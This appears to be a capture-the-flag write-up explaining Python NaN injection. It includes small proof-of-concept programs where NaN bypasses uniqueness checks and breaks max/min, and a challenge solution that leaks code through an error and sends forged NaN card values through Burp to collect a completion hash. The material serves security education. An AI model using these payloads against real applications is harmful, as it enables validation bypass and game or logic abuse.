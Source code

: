 ## Objective


## Solution

#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When added or multiplied or any other operation is performed with the ```nan``` it is nan which wins
- Some operations with NaN
```python
small = float("NaN")
big = float(999.999)

print(big>small)
print(small>big)
print(small==big)
print(small -1)
print(small +1)
print(0*small)
print(0/small)
print(small/0)
```
```output
False
False
False
nan
nan
nan
nan
Traceback (most recent call last):
  File "/home/cg/root/65988fb9cd2b1/main.py", line 12, in <module>
print(small/0)
ZeroDivisionError: float division by zero
```
#### NaN concepts 2

- When float converts ```NaN``` it becomes ```nan```
- NaN conversion effect
```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
There is no NaN? What is the the value of boo?
nan
```

#### NaN injection example PoC 1
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
- Any number repeated will result in ```Number already entered ...```. However for ```NaN``` input, we can bypass the check.
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = float(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```
```
Enter unique number 1: 4
Enter unique number 2: 4
Number already entered. Please enter a unique number.
Enter unique number 2: NaN
Enter unique number 3: NaN
Enter unique number 4: NaN
Enter unique number 5: NaN
You entered the following unique numbers: [nan, 4.0, nan, nan, nan]
```

#### NaN injection example PoC 2
- The code below stores 5 numbers and returns the max and the min value
- If we add a mix of various numbers including a "NaN", both the higest and lowest will be ```nan```
```python
def get_user_inputs():
    numbers = []
    for i in range(5):
        try:
            user_input = float(input(f"Enter number {i + 1}: "))
            numbers.append(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")
            i -= 1  # Decrement the loop counter to re-enter the current input

    return numbers

if __name__ == "__main__":
    user_numbers = get_user_inputs()

    if user_numbers:
        highest_number = max(user_numbers)
        lowest_number = min(user_numbers)

        print("Entered numbers:", user_numbers)
        print("Highest number:", highest_number)
        print("Lowest number:", lowest_number)
```
```
Enter number 1: NaN
Enter number 2: -11
Enter number 3: 0
Enter number 4: 3333
Enter number 5: 44
Entered numbers: [nan, -11.0, 0.0, 3333.0, 44.0]
Highest number: nan
Lowest number: nan
```
### Challenge Solution
#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
- Inject NaN
- Bypass the unique card check
- ```max()``` and ```min()``` returns ```nan``` is all cases
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- We will use Burp Proxy to solve the challenge as there is a client side validation in place
- We intercept the data and send JSON data with NaN for all the cards number
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- We keep doing it till our score reaches 10 and we will find the challenge completion hash in the json response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
     ......
}
```

#### Reference
- https://www.tenable.com/blog/python-nan-injection
